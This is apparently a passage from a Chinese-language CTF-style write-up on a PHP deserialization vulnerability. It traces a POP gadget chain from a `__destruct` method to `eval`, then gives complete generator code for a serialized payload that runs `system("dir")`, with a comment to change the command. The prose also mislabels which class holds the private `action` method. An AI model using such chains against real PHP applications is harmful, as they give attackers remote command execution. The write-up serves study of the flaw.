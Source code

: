 ```php
    $sail=$_GET['love'];
    unserialize($sail);
}
?>
```
这里注释掉if语句，因为它会干扰传值，需要想其他办法绕过，方便学习就将此省略。
分析思路如下：
- 从出口溯源，出口函数为`eval`，在`Rose`类的`__invoke`方法里，因此需要找到能将`Rose`类对象当做函数执行的代码；
- 溯源发现`Love`类`__call`方法有个函数`call_user_func()`，这个函数是将传入的对象当做函数调用，正好符合；
- 继续溯源则需要某个地方实例化`Love`类，并调用该类对象不存在的方法，来触发`__call`，发现`Jack`类的`__set`方法中有形如`$a()`的结构，正好可以利用；
- 那此时就需要某个地方实例化`Jack`类，并将赋值给`Jack`类对象一个不存在的成员变量，这样就可以触发`__set`方法了，而对某个变量赋值操作的结构可以在`Titanic`类的`__destruct`方法中找到，且如果`$people`赋值了`Jack`类对象，那么`$this->people->action`就正好是不存在的成员变量，因为`Jack`类的`action`方法为私有的，没有公有的`action`方法就相当于不存在。
- 另外，`__destruct`方法是在对象销毁时执行，也就是只要代码运行完，就必定会触发，符合反序列化漏洞利用过程。

生成payload的源码如下：
```php
<?php
class Jack    
{
    private $action;    
    function __set($a, $b){
        $b->$a();
    }
}
class Love {
    public $var;
    function __call($a,$b){
        $rose = $this->var;
        call_user_func($rose);
    }
    private function action(){
        echo "jack love rose";
    }
}
class Titanic{
    public $people;
    public $ship;
    function __destruct(){
        $this->people->action=$this->ship;
    }
}
class Rose{
    public $var1;
    public $var2;
    function __invoke(){
        //if( ($this->var1 != $this->var2) && (md5($this->var1) === md5($this->var2)) && (sha1($this->var1)=== sha1($this->var2)) ){
            eval($this->var1);
        //}
    }
}

$a = new Rose();
$a->var1 = 'system("dir");';    //这里修改命令
$b = new Love();
$b->var = $a;
$c = new Jack();
// $c->action = $b;

$t = new Titanic();
$t->people = $c;
$t->ship = $b;
echo urlencode(serialize($t));
```